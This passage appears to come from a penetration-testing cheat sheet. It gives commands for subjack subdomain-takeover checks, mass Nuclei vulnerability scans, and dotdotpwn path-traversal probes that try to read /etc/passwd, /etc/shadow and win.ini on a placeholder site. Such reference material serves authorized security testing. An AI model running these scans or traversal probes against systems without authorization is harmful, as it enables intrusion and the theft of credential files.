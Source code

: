 ```bash
go install -v github.com/haccer/subjack@latest
```

Check if you can takeover domains/subdomains:

```fundamental
subjack -v -o subjack_results.json -t 100 -timeout 3 -a -m -w subdomains.txt
```

### Nuclei

Installation:

```bash
apt-get update && apt-get install -y nuclei
```

Download the latest [Nuclei templates](https://github.com/projectdiscovery/nuclei-templates/releases).

To download and/or update Nuclei templates:

```bash
mkdir -p ~/nuclei-templates && nuclei -ut ~/nuclei-templates
```

Vulnerability scan (all templates):

```fundamental
nuclei -c 500 -o nuclei_results.txt -l subdomains_live.txt

cat nuclei_results.txt | grep -Po '(?<=\]\ ).+' | sort -uf > nuclei_sorted_results.txt
```

Only subdomain takeover:

```fundamental
nuclei -c 500 -t ~/nuclei-templates/takeovers -o nuclei_takeover_results.txt -l subdomains_live.txt
```

### dotdotpwn

Traverse a path (e.g. `somesite.com/../../etc/shadow`):

```fundamental
dotdotpwn -m http -f /etc/passwd -k root -h somesite.com

dotdotpwn -m http -S -f /windows/win.ini -k mci -h somesite.com

dotdotpwn -m http-url -f /etc/hosts -k localhost -u 'https://somesite.com/index.php?file=TRAVERSAL'

dotdotpwn -m http-url -f /etc/hosts -k localhost -u 'https://somesite.com/index.php?file=file://TRAVERSAL'
```

Try to prepend a protocol such as `file://`, `gopher://`, `dict://`, `php://`, `jar://`, `tftp://`, etc. to the file path.

Check some additional directory traversal tips at [swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Directory%20Traversal/README.md). Credits to the author!
